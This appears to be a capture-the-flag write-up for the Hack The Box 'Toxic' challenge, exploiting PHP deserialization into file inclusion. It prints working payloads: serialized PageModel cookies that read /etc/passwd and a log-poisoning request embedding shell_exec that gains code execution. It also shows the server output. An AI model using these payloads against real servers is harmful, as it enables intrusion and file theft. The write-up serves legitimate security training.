 # [Toxic](https://app.hackthebox.com/challenges/toxic)

## CHALLENGE DESCRIPTION

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

## Scan

Burpsuite scanner: detected `Serialized object in HTTP message`.

- `PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9`
- decoded: `O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}`

## Source code review

user controlled parameter (`file` attribute in serialized `PageModel` object) is passed to `include()` method:

```php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

=> LFI, RFI

## test LFI

LFI:

- `O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}`

  ```text
  root:x:0:0:root:/root:/bin/ash
  bin:x:1:1:bin:/bin:/sbin/nologin
  daemon:x:2:2:daemon:/sbin:/sbin/nologin
  adm:x:3:4:adm:/var/adm:/sbin/nologin
  lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
  ...
  ```

=> we can read arbitrary file at the server, but we don't know the flag file name

## find flag file name

failed attempts: use wrappers (`http`, `https`, `glob`, ...)

then i found a way to exploit LFI at [this blog](https://null-byte.wonderhowto.com/how-to/exploit-php-file-inclusion-web-apps-0179955/). they send a request containing php code, this php code will be saved in apache log file `/var/log/apache2/access.log`, then access the log file via lfi vulnerability, the php code inside the log file will be executed.

in our case there is also an nginx log file, named `/var/log/nginx/access.log`

- 1. inject php code to log file:

```http
GET /<?php echo shell_exec('ls /'); ?> HTTP/1.1
```

- 2. access nginx log file:

  ```http
  GET / HTTP/1.1
  Host: 209.97.185.157:32572
  Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ%3d%3d
  ```

  - b64-decoded PHPSESSID: `O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}`
  - response:

    ```http
    HTTP/1.1 200 OK
    Server: nginx
    Date: Thu, 16 Feb 2023 18:04:44 GMT
    Content-Type: text/html; charset=UTF-8
    X-Powered-By: PHP/7.4.15
    Content-Length: 1690

    209.97.185.157 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36"
    ...
    dev
    entrypoint.sh
    etc
    flag_PwhOA
    home
    lib
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    www
    ```

=> we found that the flag file name is `flag_PwhOA`

## get flag

send a request with cookie PHPSESSID = b64-encode(`O:9:"PageModel":1:{s:4:"file";s:11:"/flag_PwhOA";}`)

=> response = flag

## References

exloit lfi: <https://null-byte.wonderhowto.com/how-to/exploit-php-file-inclusion-web-apps-0179955/>

